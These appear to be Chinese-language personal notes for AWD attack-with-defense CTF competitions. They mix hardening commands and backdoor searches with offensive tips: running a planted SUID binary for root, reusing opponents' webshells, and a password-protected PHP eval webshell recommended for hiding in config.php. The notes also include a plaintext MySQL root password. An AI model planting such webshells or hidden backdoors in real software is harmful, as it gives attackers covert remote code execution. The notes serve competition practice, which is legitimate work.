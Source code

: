 # AWD

## 加固信息

后台 /iadmin 修改逻辑结构 iadmin/login.php 修改验证为false
chmod -x a
chmod -R 644 www

检查webshell.php
检查连接 netstat -an | grep ESTABLISHED
实时查看日志　tail -f logs/access_log &
copy别人的马到tmp/muma
覆盖同名的 webshell.php
## suid后门
根目录下有.suid ，suid在运行时会有高级权限
./.suid -p

## mysql 备份 
mysqldump -uroot -phimaliya  --database choose test > tmp.sql
/bin/mysql -uroot -phimaliya  test tmp.sql

## 简单的查找后门

  find . -name '*.php' | xargs grep -n 'eval('
  find . -name '*.php' | xargs grep -n 'assert('
  find . -name '*.php' | xargs grep -n 'system(

## webshell 加密码
素质低的人则会放置一个md5马，比如
<?php
if(md5($_POST['pass'])=='d8d1a1efe0134e2530f503028a82
5253')
@ eval($_POST['cmd']);
?>


  如果素质低的人又很猥琐，像rootrain这种就是。那就是利用
  header，最后综合起来就是
  <?php
  echo 'hello';
  if(md5($_POST['pass'])=='d8d1a1efe0134e2530f503028a825253')
  if (@$_SERVER['HTTP_USER_AGENT'] == 'flag'){
  $test= 'flagxxxxxxxxxxxxxxxxxxxxxx';
  header( "flag:$test");
  }
  ?>
  放进config.php效果最好，因为一般很少人去看这个

脚本.zip
上传phpwebshell.py

## 最后 

修复后进行更新/重启。
分工策略。
复习：中间件加固。


# 常用命令
修改密码： passwd 用户名


# 网卡配置
ip a
cd /etc/sysconfig/network-scripts
ls 查看以太网的配置文件名是否和以太网卡名字相同
不同则修改为同名
vim ifcfg-以太网卡名
修改配置文件中的以太网卡名
service network restart 

启动apache /opt/lampp/lampp startapache


# TODO
xshell jump to current path on explorer
sqlmap test
sh 暴破登录,  hydra test
？查看 linux下user
awd.png
mysql 搜索flag
挂载到笔记本磁盘---help
靶机练习
https://blog.csdn.net/yetaodiao/article/details/80900133


## 加固过程

aclawl配置白名单

